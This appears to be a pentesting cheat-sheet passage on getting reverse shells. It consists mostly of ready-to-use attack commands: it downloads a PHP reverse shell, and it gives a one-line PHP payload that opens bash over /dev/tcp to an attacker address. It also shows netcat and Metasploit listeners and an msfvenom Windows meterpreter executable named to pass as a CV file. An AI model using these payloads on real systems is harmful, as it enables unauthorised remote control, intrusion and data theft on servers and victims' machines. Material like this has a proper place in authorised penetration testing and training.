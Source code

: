 <br />

### Reverse Shell for Linux

```sh
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
# or
cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php

# Edit some variables in the payload
$ip = '<attacker-ip>'
$port = 4444
```

Or we might be able to use the following simple script.

```php
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"); ?>
```

Then open listener for getting a shell.

```sh
nc -lvnp 4444
```

After uploading it, reload the page in which the payload uploaded e.g. `"/upload/shell.php"`.

<br />

### Reverse Shell for Windows

First create a malicious executable file using msfvenom.  
Replace **10.0.0.1** with your local ip.

```sh
# -f: Format
# -p: Payload
# -o: Output file
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe -o cv-username.exe
```

Next start a listener for getting the target shell.

```sh
# -x: Execute command
sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 10.0.0.1; set LPORT 4444; exploit"
```

After getting the shell, we will get in the meterpreter, so we need to know the meterpreter’s commands. To get a list of command, run the following in the meterpreter.

```sh
# Usage command
meterpreter> ?
```
